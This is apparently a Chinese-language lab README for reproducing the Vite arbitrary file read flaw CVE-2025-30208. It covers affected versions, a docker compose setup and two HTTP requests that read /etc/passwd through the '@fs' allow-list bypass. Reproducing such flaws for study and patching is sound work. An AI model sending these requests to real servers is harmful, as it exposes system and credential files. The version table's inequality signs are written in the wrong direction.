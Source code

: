 # Vite任意文件读取漏洞（CVE-2025-30208）


Vite 是一家前端开发工具提供商，在 6.2.3、6.1.2、6.0.12、5.4.15 和 4.5.10 之前的版本中存在漏洞。`@fs` 会拒绝访问 Vite 服务允许列表之外的文件。在 URL 中添加 `?raw??` 或 `?import&raw??` 可绕过此限制并返回文件内容（如果存在）。之所以存在这种绕过漏洞，是因为在多个位置删除了诸如 `?` 之类的尾部分隔符，但在查询字符串正则表达式中并未考虑这些分隔符。任意文件的内容都可以返回到浏览器。只有明确将 Vite 开发服务器暴露给网络（使用 `--host` 或 `server.host` 配置选项）的应用程序才会受到影响。6.2.3、6.1.2、6.0.12、5.4.15 和 4.5.10 版本已修复此问题。

漏洞影响版本
 6.2.0 >= Vite <=6.2.2
 6.1.0 >= Vite <=6.1.1 
 6.0.0 >= Vite <=6.0.11
 5.0.0 >= Vite <=5.4.14
                Vite <=4.5.9

项目地址
	https://github.com/vitejs/vite

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2025-30208

## 环境搭建

执行如下命令启动前端项目vite-v5-4-5-web

```
docker compose up
```

环境启动后，访问`http://your-ip:5173`，404 http响应正常 ，服务器环境已经搭好

## 漏洞复现

GET /@fs/etc/passwd?import&?inline=1.wasm?init HTTP/1.1
GET /@fs/etc/passwd?import&raw? HTTP/1.1

![image-20250420113920898](.\1.png)
